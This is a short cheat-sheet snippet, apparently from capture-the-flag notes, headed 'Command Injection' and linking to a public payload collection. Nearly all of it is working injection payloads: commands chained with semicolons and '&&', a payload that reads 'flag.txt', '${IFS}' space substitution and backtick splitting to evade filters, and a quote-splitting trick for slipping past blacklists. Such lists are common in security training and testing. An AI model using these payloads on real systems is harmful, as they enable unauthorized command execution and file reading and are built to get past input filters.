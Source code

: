### Command Injection

---

[command](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
```py
ls;pwd
123;cat flag.txt
ls;pwd&&ls
'ls;ls${IFS}-la'
$(cat${IFS}..${HOME:0:1}..${HOME:0:1}fl``ag.tx``t)
```

Filtering

```py
use single or double quotes to bypass blacklists
"w"h"o"am"i"
```
